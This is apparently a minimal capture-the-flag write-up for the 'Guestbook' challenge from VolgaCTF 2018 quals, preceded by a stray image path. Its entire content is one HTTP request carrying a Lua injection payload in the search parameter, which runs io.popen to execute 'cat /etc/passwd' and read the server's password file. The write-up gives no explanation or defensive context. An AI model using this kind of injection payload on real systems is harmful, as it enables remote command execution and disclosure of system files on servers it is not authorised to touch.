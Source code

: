 # Guestbook Writeup

Lua Injection

```
GET /search?search="..(io.popen('cat\x20/etc/passwd','r'):read('*a')).." HTTP/1.1
Host: guestbook.quals.2018.volgactf.ru
```